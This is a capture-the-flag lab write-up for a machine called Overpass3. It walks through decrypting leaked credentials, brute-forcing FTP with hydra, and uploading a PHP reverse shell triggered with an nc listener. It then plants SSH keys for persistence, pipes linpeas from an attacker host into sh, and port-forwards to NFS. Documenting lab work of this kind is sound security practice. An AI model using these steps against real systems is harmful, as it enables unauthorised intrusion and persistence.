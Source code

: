 Overpass3 Writeup


# Enumeration

First we start a nmap scan and a gobuster scan as always and start exploring manually the webpage.

The Webpage itself looks a bit empty and static but we find a few possible Usernames:

[![https://imgur.com/OQ86bnA.png](https://imgur.com/OQ86bnA.png)](https://imgur.com/OQ86bnA.png)

We also found a /backups endpoint through our gobusterscan.

Visiting that page http://ip/backups give us the option to download the backup.zip

[![https://imgur.com/jPMhQKN.png](https://imgur.com/jPMhQKN.png)](https://imgur.com/jPMhQKN.png)

After downloading and unzipping the file we get two new files:

[![https://imgur.com/0vbx7Ob.png](https://imgur.com/0vbx7Ob.png)](https://imgur.com/0vbx7Ob.png)

one of them is a PGP(Pretty Good Privacy) Key and the other one is a protected excel file which we need to open with our PGP key.

After researching abit i found that we can import the key with gpg:

gpg --import priv.key

and then use it to open the file:

gpg CustomerDetails.xlsx.gpg

now after renaming CustomerDetails.xlsx to CustomerDetails we have a folder with files we can search through.

One of the files is called sharedStrings.xml where we find a list of Credentials.

But where do we login? We didn't find any login through gobuster so lets check the services we found on nmap.

[![https://imgur.com/tN09AUl.png](https://imgur.com/tN09AUl.png)](https://imgur.com/tN09AUl.png)

We have an ssh and an FTP service.

I created short wordlists out of the credentials we found to automate trying to loginto the services and now we can use hydra to give us a hand for executing the login.

The command for hydra is the following:

[![https://imgur.com/7m8lubp.png](https://imgur.com/7m8lubp.png)](https://imgur.com/7m8lubp.png)

(If you want to replace the ip like in the image above you can: sudo vim /etc/hosts and a line: ip overpass3)

We can already see that SSH wont work with out a private rsa key.

So lets try ftp.

Success!

[![https://imgur.com/DzdnfOz.png](https://imgur.com/DzdnfOz.png)](https://imgur.com/DzdnfOz.png)

We can now loginto FTP!

[![https://imgur.com/GZzNLB5.png](https://imgur.com/GZzNLB5.png)](https://imgur.com/GZzNLB5.png)

After testing that we can upload files:

[![https://imgur.com/1uxQlRt.png](https://imgur.com/1uxQlRt.png)](https://imgur.com/1uxQlRt.png)

We can now create a folder upload our reverseshell and then call the endpoint where the file is stored to activate the reverseshell.
(Get a reverseshell on https://github.com/pentestmonkey/php-reverse-shell and dont forget to change the ip and port)

[![https://imgur.com/s2NQwJR.png](https://imgur.com/s2NQwJR.png)](https://imgur.com/s2NQwJR.png)

We also need to start a nc listener:

sudo nc -lvnp port

To activate the shell we can curl the place where its stored:

curl http://overpass3/shell/phprev.php

And we are in! 

[![https://imgur.com/F2x8fh9.png](https://imgur.com/F2x8fh9.png)](https://imgur.com/F2x8fh9.png)

## Persistence

If we navigate to the /home directory we can see that there are two users:
James and Paradox.
For Paradox we know the password so lets switch to that user:

[![https://imgur.com/4SCpOba.png](https://imgur.com/4SCpOba.png)](https://imgur.com/4SCpOba.png)

In his homedirectory (~) we can see a .ssh folder so lets put our public key in authorizedkeys to get a better shell and persistance.

[![https://imgur.com/Tgsi0S5.png](https://imgur.com/Tgsi0S5.png)](https://imgur.com/Tgsi0S5.png)

Now we can use our private id_rsa key to loginto SSH:

[![https://imgur.com/l7yN2dj.png](https://imgur.com/l7yN2dj.png)](https://imgur.com/l7yN2dj.png)


## Privilege Escalation

Lets find out what we can execute and how we can escalate our privileges.

First we create a simple http.server on our hostmachine:

python3 -m http.server

i already have linpeas if you need to downloaded it do it here: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

and on the target machine go into the /tmp directory:

curl http://your_THM_IP/linpeas.sh | sh

we found a option root_squash for nfs so we could try to ssh tunnel into that service.

[![https://imgur.com/364hbdt.png](https://imgur.com/364hbdt.png)](https://imgur.com/364hbdt.png)

Portforwarding is not as hard as i thought :D 
└─$ ssh paradox@overpass -i /home/darjusch/.ssh/id_rsa -L 2050:localhost:2050


[![https://imgur.com/NwY6p02.png](https://imgur.com/NwY6p02.png)](https://imgur.com/NwY6p02.png)

[![https://imgur.com/QadWFuO.png](https://imgur.com/QadWFuO.png)](https://imgur.com/QadWFuO.png)

James sshkey

[![https://imgur.com/aBzhZ62.png](https://imgur.com/aBzhZ62.png)](https://imgur.com/aBzhZ62.png)

[![https://imgur.com/MK1dtEI.png](https://imgur.com/MK1dtEI.png)](https://imgur.com/MK1dtEI.png)

Our own creation of a SUID binary rev shell :D 

[![https://imgur.com/TrSo1Zl.png](https://imgur.com/TrSo1Zl.png)](https://imgur.com/TrSo1Zl.png)

Trying this tutorial to get something out of it but it doesnt work ..

https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
